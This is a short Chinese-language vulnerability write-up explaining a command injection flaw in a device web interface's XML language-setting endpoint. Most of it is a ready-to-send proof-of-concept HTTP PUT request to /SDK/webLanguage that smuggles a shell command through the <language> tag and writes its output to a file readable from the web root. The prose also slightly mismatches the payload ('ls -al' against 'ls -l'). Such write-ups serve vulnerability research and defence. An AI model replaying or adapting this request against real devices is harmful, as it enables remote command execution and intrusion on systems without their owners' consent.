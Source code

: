 简单来说就是系统通过 web 方式以 xml 格式传递标签，标签解析过程中没有做完善的安全验证，导致在后台命令拼接过程中造成了命令注入

`PoC` 数据包如下

```plain
PUT /SDK/webLanguage HTTP/1.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: x.x.x.x
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US,en;q=0.9,sv;q=0.8
Content-Length: 71

<?xml version="1.0" encoding="UTF-8"?><language>$(ls -l>webLib/c)</language>
```

上面的命令将 `ls -al` 的执行结果写入到了当前目录下的 `webLib/c` 文件中，接下来直接访问根目录的 `/c` 就可以了

![图片](assets/1710993392-7dad6895515a4bfa28455dbe232cd472.png)

![图片](assets/1710993392-607bf48f3f85df7add631b9e3dc3ded9.png)
